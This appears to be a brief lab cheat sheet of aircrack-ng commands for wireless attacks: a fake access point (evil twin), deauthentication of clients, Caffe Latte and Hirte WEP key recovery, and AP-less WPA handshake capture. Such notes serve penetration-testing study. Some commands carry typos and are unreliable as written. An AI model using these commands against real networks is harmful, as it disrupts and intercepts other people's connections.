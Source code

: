 ## honeypot attack

Monitor probes for Preferred network list (PNL). Create a fake AP with the same ESSID to
 capture traffic and attempt to force the client to connect to it.

```
airodump-ng wlan0mon

```

wireshark filter for probe requests

```
(wlan.addr=<your_mac> && wlan.fc.subtype=0x04)
```

Create a fake access point

```
airbase-ng -a xx:xx... --essid "wireless lab" -c 8 wlan0mon
```

deauth legitimate clients

```
aireplay-ng -O 5 -a xx:xx... --ignore-negative-one wlan0mon
```

## cafe latte attack

obtaining the wep key using only the client

```
airodump-ng wlan0mon

airbase-ng -a xx:xx... --essid "wireless lab" -L -W 1 -c 7 wlan0mon

airodump-ng wlan0mon -c7 --essid 'wireless lab' -w keystream

```

## hirte attack

same result as caffe latte

```
airbase-ng -a xx:xx --essid 'wireless lab' -N -W 1 -c 9 wlan0mon
airodumo-ng wlan0mon -c 9 --essid 'wireless lab' -w Hirte
```

## ap-less WPA cracking

```
airbase-ng -a xx:xx... --essid 'wireless lab' -N -W 1 -c 3 wlan0mon
airodump -c 3 --bssid cc:cc --write ap-less-cracking wlan0mon
```
